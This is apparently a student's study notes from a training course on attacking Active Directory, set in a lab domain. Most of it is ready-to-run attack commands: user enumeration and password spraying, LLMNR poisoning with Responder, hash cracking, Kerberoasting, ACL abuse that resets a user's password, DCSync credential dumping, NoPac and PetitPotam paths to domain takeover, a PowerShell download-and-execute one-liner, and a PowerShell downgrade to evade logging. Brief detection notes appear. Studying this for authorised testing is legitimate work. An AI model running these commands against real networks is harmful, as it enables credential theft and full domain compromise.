

# Academy - Active Directory Enumeration and Attacks

## Active Directory Essentials

What is a security identifier (SID)?
- a SID is a unique value that is used to identify any security entity that the Windows operating system can authenticate  
- This can be a security principal -- a user account, a computer account, or a process started by those accounts -- or it can be a security group  
- SIDs are persistent - a user account name could change, but a sid would remain the same
- When a computer joins a domain, the DC grants it a domain SID for authentication purposes in the domain
- SID format:
  - All SIDs start with the letter "S"
  - Example: S-1-5-21-1004336348-1177238915-682003330-512
    - 1 indicates the revision level
    - 5 is the identifier authority; this value is only used for Windows installations
    - 21-1004336348-1177238915-682003330 identifies the cmoputer or domain that created the SID
    - 512 is the relative ID (RID). The RID portion is what ensures that the SID is unique in the domain. RID values cannot be used again by the domain, even if their objects are deleted


## Identifying Users - Kerbrute

Kerbrute takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts  
You point Kerbrute at the domain controller and give it a username wordlist  

Installing:  
- `git clone https://github.com/ropnop/kerbrute.git`
- `cd kerbrute`
- `make linux` (`make help` to see the options)
- `cd dist`
- `sudo mv ./kerbrute_linux_amd64 /usr/local/bin/kerbrute`

Enumerating with kerbrute:
```sh
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

<br />

## LLMNR/NBT-NS Poisoning

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails.  
If a machine attempts to resolve a host but DNS resolution fails typically, the machine will try to ask all other machines on the local network for the correct host address via LLMNR  
LLMNR uses DNS format and typically runs on udp/5355  
If LLMNR fails, the NBT-NS will be used. NBT-NS identifies systems on a local network by their NetBIOS name. NBT-NS utilizes udp/13  
When LLMNR/NBT-NS are used for name resolution, ANY host on the network can reply. This is where we come in with Responder to poison these requests.  

Example:
- A host attempts to connect to the print server at \\print01.inlanefreight.local, but accidentally types in \\printer01.inlanefreight.local
- The DNS server responds, stating that this host is unknown
- The host then broadcasts out to the entire local network asking if anyone knows the location of \\printer01.inlanefreight.local
- The attacker (us with Responder running) responds to the host stating that it is the \\printer01.inlanefreight.local that the host is looking for
- The host believes this reply and sends an authentication request to the attacker with a username and NTLMv2 password hash
- This hash can then be cracked offline or used in an SMB Relay attack if the right conditions exist

### **Using Responder**

By default, responder will listen on all of the following ports:
- udp/53 udp/88 udp/137 udp/138 udp/389 udp/1434 multicast-udp/5355 multicast-udp/5353
- tcp/21 tcp/25 tcp/53 tcp/80 tcp/88 tcp/110 tcp/135 tcp/139 tcp/143 tcp/389 tcp/443 tcp/445 tcp/587 tcp/1433 tcp/3128 tcp/3141 tcp/5985
- You could find this for youself with `sudo netstat -tunlp` before and while running responder. The process name for responder will be python3

Theoretically you could port forward all of those ports back through a tunnel (see [here](../Tooling/Chisel_Pivoting.md)), but it might be easier just to get Responder running on the access point / edge  

If you succesfully manage to capture a hash, Responder will print it out to the screen and write it to `/usr/share/responder/logs`  

Example:
- `sudo responder -I ens224`

Here is a script to extract Responder hashes from the responder log file: https://github.com/litsnarf/extractResponderHashes

### **Cracking NTLM hashes with hashcat**

```sh
# 5600 is the mode for NTLMv2 hashes
hashcat -m 5600 hash_out /usr/share/wordlists/rockyou.txt
hashcat -m 5600 --show hash_out

# In this case hash_out would contain:  
backupagent::INLANEFREIGHT:5b7024f548ec1492:9B9D232E4813929A1BDB1C14FF44C2D8:010 ... 0000000000
```

<br />

## LLMNR / NBT-NS Poisioning - From Windows

Same idea as the last section, but using `Inveigh` instead of `Responder`  

Using Inveigh:
```Powershell
# (Run as administrator)
Import-Module .\Inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

The PowerShell version of Inveigh is the original version and is no longer updated  
The tool author maintains the C# version  

<br />

## Enumerating and Retrieving Password Policies

With valid domain credentials, we can use a tool like `CrackMapExec` or `rpcclient` to obtain the password policy:
- `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol`

Without valid domain credentials we need to be creative/lucky:  

### **Enumerating Password Policy with SMB NULL Sessions**

SMB NULL sessions allow an unauthenticated attacker to retrieve information from the domain, such as a complete listing of users, groups, computers, and the domain password policy  

SMB NULL session misconfiguratons are often the result of legacy Domain Controllers being upgraded in place, ultimately bringing along insecure configurations, which existed by default in older versions of Windows Server  

We can use `rpcclient` to check a Domain Controller for SMB NULL session access:
- `rpcclient -U "" -N 172.16.5.5`  

### **enum4linux-ng.py**

enum4linux.py is a tool for enumerating information from Windows and Samba systems  

Its basically a wrapper around the Samba tools `nmblookup`, `net`, `rpcclient`, and `smbclient`  

Installation:
- `git clone https://github.com/cddmp/enum4linux-ng`
- `cd enum4linux-ng`
- `python3 -m pip install -r requirements.txt`
- `python3 enum4linux-ng`

Example usage:
- `python3 enum4linux-ng -P 172.16.5.5 -oA ilfreight`

### **Enumerating the Password Policy - LDAP Anonymous Bind**

LDAP anonymous binds allows unauthenticated attackers to retrieve information from the domain, such as a complete listing of users, groups, computers, and the domain password policy  

This is a legacy configuration, and as of Windows Server 2003, only authenticated users are permitted to initiate LDAP requests  

Use an LDAP-specific enumeration tool to do this such as `windapsearch.py`, `ldapsearch`, or `ad-ldapdomaindump.py`  

<br />

## Password Spraying

Bash one liner to spray password with `rpcclient`:
```sh
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

Using Kerbrute to spray password:  
```sh
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

<br />

## Password Spraying from Windows

`DomainPasswordSpray.ps1` :
```PowerShell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
# If you don't supply a -UserList flag, the tool will generate a list for you
```

<br />

## LAPS

Local Administrator Password Solution (LAPS) is used to randomize and rotate local administrators passwords on Windows hosts and prevent lateral movement.  

We can see which domain users can read the LAPS password set for machines with LAPS installed and what machines have LAPS installed.  

<br />

## CrackMapExec

CrackMapExec is a powerful toolset to help with assessing AD environments  

It uses packages from Impacket and PowerSploit toolkits to perform its functions  

CrackMapExec is not supported anymore, and can be a major pain to install  

NetExec is a new replacement for CrackMapExec

You are better off installing and running NetExec as root  

### **Installing NetExec**

- `sudo su -`
- `git clone https://github.com/Pennyw0rth/NetExec`
- `cd NetExec`
- `python3 -m pip install .`
- If you have dependency issues, try it in a Python venv

### **NetExec - Domain User Enumeration**

`172.16.5.5` is a domain controller. forend / Klmcargo2 is a valid set of Domain creds  

Complete listing of Domain users:  
```sh
netexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```

Complete listing of Domain groups:
```sh
netexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```

List of users logged on to a different host:
```sh
netexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```

Enumerating shares:
```sh
netexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```

List all files in a share:
```sh
netexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
# When complete, NetExec will write the results to a JSON file located at /tmp/nxc_spider_plus/<ip of host>
```

<br />

## SMBMap

SMBMap is a tool for enumerating SMB shares from a Linux attack host. It can be used to gather a listing of shares, permissions, and share contents if accessible  

Once access is obtained, it can be used to download an upload files and execute remote commands  

SMBMap to check access:
```sh
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```

For a regular user, the defaults will be:
- NO ACCESS to the ADMIN share
- NO ACCESS to the C share
- READ ONLY access to IPC share
- READ ONLY access to NETLOGON share
- READ ONLY access to SYSVOL share

<br />

## rpcclient

rpcclient is a tool for executing client-side MS-RPC functions  

Authenticate via an SMB NULL session with rpcclient:
```sh
rpcclient -U "" -N 172.16.5.5
```

A rid, or relative identifier, is a unique identifier used by Windows to track and identify objects  

Some accounts will have the same RID regardless of what host you are on. For example, the built in Administrator account will have a RID of 0x1f4 which is decimal 500  

Get all rids with rpcclient:
```sh
rpcclient> enumdomusers
```

<br />

## Impacket

Impacket is a versatile toolkit that provides us with many different ways to enumerate, interact with, and exploit Windows protocols  

It has a bunch of different components:  

### **psexec.py**

psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original  

The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Once established, communication happens over a named pipe, providing an interactive remote shell as SYSTEM on the victim host  

To connect to a host with `psexec.py` we need credentials for a user with local administrator privileges:
```sh
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

### **wmiexec.py**

wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation. It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with. This is a more stealthy approach to execution on hosts than other tools, but would still likely be caught by most modern anti-virus and EDR systems  

The shell environment created is not fully interactive. Each command issued executes a new cmd.exe from WMI. If a vigilant defender checks event logs and looks at event ID 4688: A new process has been created, they will see a new process created to spawn cmd.exe and issue a command  

```sh
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

<br />

## Windapsearch

Windapsearch is a Python script for enumerating users, groups, and computers from a Windows domain by utilizing LDAP queries  

go-windapsearch is windapsearch but written in Go

Installation:
- Just download the latest release from the releases page at https://github.com/ropnop/go-windapsearch

Example: Get Domain Admins:
```sh
./windapsearch -m domain-admins --dc 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2
```

Example: Get all privileged users:
```sh
./windapsearch -m privileged-users --dc 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2
```

<br />

## Bloodhound.py

BloodHound is one of, if not the most impactful tools ever released for auditing Active Directory security  

It takes large amounts of data and creates graphical representations or "attack paths" of where acces with a particular user may lead  

The tool uses graph theory to visually represent relationship and uncover attack paths that would have been difficult, or even impossible to detect with other tools  

The tool consists of two parts:
1. SharpHound collector, written in C# for use on Windows systems
2. BloodHound.py collector + BloodHound GUI  

### **Executing bloodhound:**
```sh
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all
```

### **Analyzing Results:**

Installing and Starting Bloodhound+neo4j
```sh
# Install neo4j
sudo apt-get install openjdk-11-jdk
wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -
echo 'deb https://debian.neo4j.com stable 4' | sudo tee /etc/apt/sources.list.d/neo4j.list > /dev/null
sudo apt-get update

sudo apt-get install apt-transport-https
sudo apt-get install neo-4j

# Starting:
sudo neo4j console
# go to http://localhost:7474/
# Change the Connect URL to bolt://localhost:7687
# The default username/password is neo4j/neo4j

# Install BloodHound GUI
# Download latest from https://github.com/BloodHoundAD/BloodHound/releases
# (may have to use firefox if chrome blocks the download)
# Run:
./BloodHound --no-sandbox
# Connect to bolt://localhost:7687 with your new creds
```

Uploading results:  
- Add all the json files outputted to a zip:
  - `zip -r output.zip 2024*.json`
- Upload the zip file using the up arrow icon on the right

Analyzing results
- Go to the Analysis tab by clicking on the hamburger in the top right
- Run a query you are interested in
- For example; "Find Shortest Paths to Domain Admins" is a good one


<br />

## Snaffler

Snaffler is a Windows tool that searches for credentials or other sensitive data in an Active Directory environment  

It works by obtaining a list of hosts within the domain and then enumerating those hosts for shares and readable directories. 

Example:
```PowerShell
.\Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data
```

<br >

## Living off the Land

### **Basic Commands for Host and Network Recon**

```Powershell
# Print the PC's name:
hostname

# Print out the OS version and revision level:
[System.Environment]::OSVersion.Version

# Print the patches and hotfixes applied to the host
wmic qfe get Caption,Description,HotFixID,Installation

ipconfig /all

# Display list of environment variables for the current session (ran from CMD-prompt)
set

# Display the domain name to which the host belongs (ran from CMD-prompt):
echo %USERDOMAIN%

# Print out the name of the DC the host checks in with: (CMD-prompt):
echo %logonserver%

# All of the above wrapped into one (PS or command prompt):
systeminfo
```

### **Harnessing PowerShell**

```PowerShell
Get-Module # Lists available modules loaded for use
Get-ExecutionPolicy -List # Will print the execution polocy settings for each scope on a host
Set-ExecutionPolicy Bypass -Scope Process # Will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt # Get the specified user's PowerShell history
Get-ChildItem Env: | ft Key,Value # Get environment variables

# Download a file from the web and call it from memory:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

### **Downgrading PowerShell**

Many versions of PowerShell often exist on a host. If not uninstalled, they can still be used  

PowerShell event logging was introduced as a feature with PowerShell 3.0 and forward. With that in mind, we can attempt to call PowerShell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer.  

```PowerShell
Get-host
# Look at the powershell version

powershell.exe -version 2
Get-host
# Look at the powershell version
```

The primary place to look for PowerShell logs is Applications and Services Logs > Microsoft > Windows > PowerShell > Operational  

### **Checking Defenses**

```PowerShell
# Firewall Checks
netsh advfirewall show allprofiles

# Defender Check (from cmd.exe):
sc query windefend

# Check Defender status and config:
Get-MpComputerStatus

# Am I alone?
qwinsta
```

### **Networking Commands**

```PowerShell
ipconfig /all
arp -a
route print
netsh advfirewall show state
```

### **Windows Management Instrumentation (WMI)**

WMI is a scripting engine that is widely used within Windows enterprise environments to retrieve information and run administrative tasks on local and remote hosts  

Here are some useful WMI commands:
```PowerShell
# print the patch level and description of the Hotfixes applied:
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Display basic host information to include any attributes within the list:
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List

# A list of all processes on host
wmic process list /format:list

# Display information about the domain and DC
wmic ntdomain list /format:list

# Display information about all local accounts and any domain accounts that have logged into the device
wmic useraccount list /format:list

# Information about all local groups
wmic group list /format:list

# Dumps information about any system accounts that are being used as service accounts
wmic sysaccount list /format:list
```

### **Net commands**

Net commands ("net ...") can be beneficial when attempting to enumerate information from the domain.  

net.exe commands are typically monitored by EDR

### **Dsquery**

Dsquery is a helpful command-line tool that can be used to find AD objects  

Anything that dsquery can do can also be done by BloodHound, but there are some times when you may not be able to get BloodHound on a box  

Here is a sample dsquery that we used to list all users with disabled accounts:
```Powershell
dsquery * -filter "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))" -attr *
```

<br />

## Kerberoasting

### **Kerberoasting Overview**

Kerberoasting is a lateral movement / privilege escalation technique in Active Directory environments  

The attack targets Service Principal Names (SPN) accounts
- SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running  

Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`  

Domain accounts running services are often local administratros, if not highly privileged domain accounts. Many services require elevated privileges on various systems, so service accounts are often added to privileged groups, such as Domain Admins, either directly or via nested membership. So, finding SPNs associated with highly privileged accopunts is very common  

When you want to authenticate to a remote service in Kerberos, you send a TGT to the DC. The DC replies with a ticket that has two parts. One is encrypted with your NTLM hash, and the other is encrypted with the service's NTLM hash. Normally, this second part is forwarded to the service to let it know that the DC has authenticated you to that service. But, this ticket has been encrypted with the service's NTLM hash, and therefore can be cracked offline  

Why does this happen?
- Remember, Kerberos fundamentally only relies on symmetric cryptography. Therefore, shared secrets are needed the DC and everything/everyone that wants to authenticate to the DC, or that the DC wants to authenticate to
- In Windows, there is only one shared secret, the NTLM hash 
- So, the only way for the DC  to authenticate to the service is to use this hash (which is the same as the service account's password hash)

All you need to perform a Kerberoasting attack is an account's cleartext password (or NTLM hash), a shell in the context of a domain user account, or SYSTEM level access on a domain-joined host  

### **Performing Kerberoasting Attack**

Step 1 is to gather a listing of SPNs in the domain  
`GetUserSPNs.py` from Impacket can do this for us:  
```sh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```
Step 2 is to gather all TGS tickets for offline cracking with the `-request` flag:  
```sh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request -outputfile hashes_tgs
```

These are Kerberos 5 TGS-REP hashes, so we use Hashcat hash mode 13100  

### **Encryption Types for Kerberoasting**

Kerberoasting tools typically request RC4 encryption when performing the attack and initiating TGS-REQ requests. This will result in hashes that begin with `$krb5tgs$23$`, an RC4 (type 23) encrypted ticket. Sometimes we will receive an AES-256 (type 18) encrypted hash (beginning with `$krb5tgs$18$`). It is possible to crack these and AES-128 (type 17) hashes, but its significantly more time consuming than cracking RC4 ones  


<br />

## Access Control Lists

There are two types of ACLs:
1. Discretionary Access Control List (DACL): Defines which security principals are granted or denied access to an object
2. System Access Control List (SACL): Allow administrators to log access attempts made to secured objects

An Access Control Entry (ACE) is an element in an ACL that names a user or group and the level of access they have to a given securable object  

<br />

## ACL Enumeration

Use BloodHound

Search for a compromised user as our starting node  
The "Outbound Object Control" section in Node Info will show us objects we have control over  
Right Clicking a line between nodes in BloodHound and clicking the help menu will bring up an explanation of what the line means  

<br />

## ACL Abuse

### Changing a Password

In this module we are given a hypothetical scenario where we are authenticated as a user named "wley" who has rights to change the password for a different user named "damundsen"  

Here is how we can change that user's password:  

Create a PSCredential Object ("wleypass123" is wley's password in this scenario"):
```Powershell
$SecPassword = ConvertTo-SecureString 'wleypass123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

Create a SecureString Object:
```Powershell
$damundsenPassword = ConvertTo-SecureString 'abc123!!!' -AsPlainText -Force
```

Changing the damudsen's password:
```Powershell
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

### Adding User to a Group

The next step in this hypothetical scenario is to have "damundsen" add himself to the group "Help Desk Level 1" (bloodhound showed us earlier that he has the rights to do this)  

First, create a PSCredential Object for damundsen:
```Powershell
$SecPassword = ConvertTo-SecureString 'abc123!!!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
```

Confirm damundsen is not already a part of the Help Desk Level 1 Group:
```Powershell
# This Works:
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
# This also works:
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

Add damundsen to the group:
```Powershell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

### Taking over account without chaning the password

Next, in our hypothetical scenario, damundsen, now being in the Help Desk Level 1 group has `GenericAll` rights over the "adunn" user. We could change this user's password to take over the account, but in this scenario the "adunn" user frequently logs in, so this is not an option  

Instead, since we have `GenericAll` rights over this account we can modify the accounts `servicePrincipalName` attribute to create a fake SPN that we can the Kerberoast and hash crack  

Creating the fake SPN:  
```Powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

Now we can Kerberoast the user:  
```sh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.local/wley -request-user adunn -outputfile adunn_tgs_hash
```

### Cleanup

We have 3 cleanup steps associated with the above attack:  
1. Remove the fake SPN we created for adunn
2. Remove the damudsen user from the Help Desk Level 1 group
3. Unfortunately, because we do not know damundsen's original password, we cannot change it back  

Removing the fake SPN:  
```Powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```

Removing damundsen from the Help Desk Level 1 Group:  
```Powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

<br />

## Detecting ACL Abuse

Event ID 5136 is "A directory service object was modified"  
This might indicate that there was an ACL attack  

If you are looking at this type of event in event viewer, the details tab will have information in the attribute value section written in Security Descriptor Definition Language (SDDL)  

We can use `ConvertFrom-SddlString` to convert this to readable format:  
```Powershell
ConvertFrom-SddlString "O:BAG:BAD:AI(D;;DC;;;..."
```

<br />

## DCSync

DCSync is a technique for stealing the Active Directory password database by using the built in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data  

In this attack, an attacker mimics a Domain Controller to retrieve user NTLM hashes  

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the `Replicating Directory Changes` and `Replicating Directory Changes All` permissions set)  

Domain/Enterprise Admins and default domain administrators have this right by default  

### Using PowerView to confirm we have the correct privileges:

```Powershell
# First get our sid:  
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol | fl
# samaccountname     : adunn
# objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
# ...

# Check our replication rights:  
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

### Executing DCSync using secretsdump.py

secretsdump.py is part of Impacket
```sh
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```

We could use the `-just-dc-ntlm` flag if we only want NTLM hashes, or specify `-just-dc-user <USERNAME>` to only extract data for a specific user  

If we use the `just-dc` option, there will be three files created: one with NTLM hashes, one with Kerberos keys, and one with cleartext passwords for any accounts set with `reversible encryption` enabled  

The format of the secretsdump output is a little weird, for example:  
```
inlanefreight.local\khartsfield:1138:aad3b435b51404eeaad3b435b51404ee:4bb3b317845f0954200a6b0acc9b9f9a:::
```
In this case, 4bb3b317845f0954200a6b0acc9b9f9a is the NTLM hash

### Understanding reversible encryption option

When this option is set on a user account, it does not mean that the password is stored in cleartext  

Instead, they are stored using RC4 encryption. The key needed to decrypt them is stored in the registry (the Syskey) and can be extracted by a Domain Admin or equivalent  

Finding any users with reversible encryption set with power view:
```Powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} | select samaccountname,useraccountcontrol
```

<br />

## WinRM

We can use this custom Cypher query in BloodHound to hunt for users with WinRM access. This can be done by pasting this query into the Raw Query box at the bottom of the screen:  
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

WinRM from Linux:
```sh
# Install evil-winrm:
sudo gem install evil-winrm

evil-winrm -i 10.129.201.234 -u forend
```

<br />

## SQL Server Admin

Here is a custom Cypher query for BloodHound to find users with SQL Admin Rights:
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

We can use `mssqlclient.py` from Impacket to get an SQL shell:
```sh
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

If your account has the proper access rights you can run `enable_xp_cmdshell` in the SQL shell, which allows you to execute operating system commands via the database  

<br />

## Kerberos "Double Hop" Problem

Here is the scenario:  



Say the Attack Host in this scenario is a Parrot box  

We obtain a set of credentials for a domain user and find that they are part of the Remote Management Users group on DEV01. We want to use PowerView to enumerate the domain, which requires communication with the Domain Controller, DC01  

When we connect to DEV01 using a tool such as evil-winrm, we connect with network authentication, so our credentials are not stored in memory, and therefore, will not be present on the system to authenticate to other resources on behalf of our user  

### Workaround #1: PSCredential Object

```PowerShell
# Create a PSCredential Object:
EvilWinRM > $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
EvilWinRM > $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)

# And pass it with any PowerView commands we run
EvilWinRM > get-domainuser -spn -credential $Cred | select samaccountname
```

### Workaround #2: Register PSSession Configuration

What if we're on a domain-joined host and can connect remotely to another using WinRM? Or we are working from a Windows attack host and connect to our target via WinRM using the Enter-PSSession cmdlet?  

```Powershell
# Establish WinRM session:
Enter-PSSession -ComputerName ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL -Credential inlanefreight\backupadm

# Check cached tickets using klist, see that there are no non-local tickets
klist

# Register a new session configuration:
Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm

# Restart the WinRM service (This will kick us out)
Restart-Service WinRM

# Reconnect:
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName backupadmsess

klist
# Should now have a ticket for the krbtgt not just local tickets
```

<br />

## Working from a Non-Domain-Joined Windows Box
### PowerView

This is related to the above, so I will put it here  

How can I use PowerView commands from a Non-Domain-Joined Windows attack box?  

Basically, you can run most (all?) PowerView commands with the -Credential flag and the -DomainController flag, like so:  
```Powershell
$SecPassword = ConvertTo-SecureString 'Academy_student_AD!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\htb-student', $SecPassword)
Get-DomainUser -DomainController 172.16.5.5 -Credential $Cred | findstr samaccountname
```

### ActiveDirectory Commands

Do the same as above with declaring `$SecPassword` and `$Cred`  

Then, here are some examples:
```Powershell
Get-ADTrust -Filter * -Credential $Cred -Server 172.16.5.5
```


<br />

## NoPac (SamAccountName Spoofing)

This vulnerability encompasses two CVEs, 2021-42278 and 2021-42287  

It allows for privilege escalation within a domain from any standard domain user to Domain Admin level access  


The exploit
- The exploit takes advantage of being able to change the SamAccountName of a computer account to that of a Domain Controller  
- By default, authenticated users can add up to ten computers to a domain
- When doing so, we change the name of the new host to match a Domain Controller's SamAccountName

### Installing NoPac

NoPac relies on Impacket being installed, so that must be installed first  

Then,
```sh
git clone https://github.com/Ridter/noPac.git
```

### Using NoPac

There are many different ways to use NoPac to further our access  
One way is to obtain a shell with SYSTEM level privileges. This could be "noisy" and may be blocked by AV or EDR  

```sh
# Check if the system is vulnerable
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

# Get a SYSTEM level shell:
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

Using the above, a semi-interactive shell session is established with the target using smbexec.py  
- Keep in mind, with smbexec shells we need to use exact paths instead of navigating the directory structure using cd  

NoPac.py saves the TGT in the directory on the attack host where the exploit was run  
- We can use this ccache file to perform a pass-the-ticket and perform further attacks such as DCSync

### Windows Defender and smbexec.py Considerations

If Windows Defender (or any other AV or EDR product) is enabled on a target, our shell session may be established, but issuing any commands will likely fail  

<br />

## PrintNightmare

PrintNightmare is the nickname given to two vulnerabilities (CVE-2021-34527 and CVE-2021-1675) found in the PrintSpooler service that runs on all Windows operating systems  

Many exploits have been written based on these vulnerabilities that allow for privilege escalation and RCE  

You can use this (https://github.com/cube0x0/CVE-2021-1675.git) to exploit this in AD, but it requires a specific version of Impacket to be installed. I don't feel like exploring this right now, moving on...  

<br />

## PetitPotam

PetitPotam (CVE-2021-36942) is an LSA spoofing vulnerability that was patched in August of 2021  

The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the Local Security Authority Remote Protocol (LSARPC) by abusing Microsoft's Encrypted File System Remote Protocol (MS-EFSRPC)  

This technique allows an unauthenticated attacker to take over a Windows domain where Active Directory Certificate Services (AD CS) is in use  

In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as Rubeus or gettgtpkinit.py from PKINITtools to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.  

### The attack

1. Start NTLM relay:
```sh
do ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

2. Run PetitPotam.py (in another window):
```sh
python3 PetitPotam.py 172.16.5.225 172.16.5.5
```

3. Get the Base64 encoded Certificate for DC01
```sh
# In the ntlm relay window we should see something like this:
# [*] Base64 certificate of user ACADEMY-EA-DC01$: 
# MIIStQIBAzCCEn8GCSqGSIb3DQEHAaCCEnAEghJsMIISaDCCCJ8...
```

4. Requesting a TGT using gettgtpkinit.py
```sh
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```

5. Use DC TGT to DCSync
```sh
export KRB5CCNAME=dc01.ccache
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

**Random Note:** You can run `klist` on your attack host if you have the `krb5-user` package installed  

<br />

## Exchange Related Group Membership

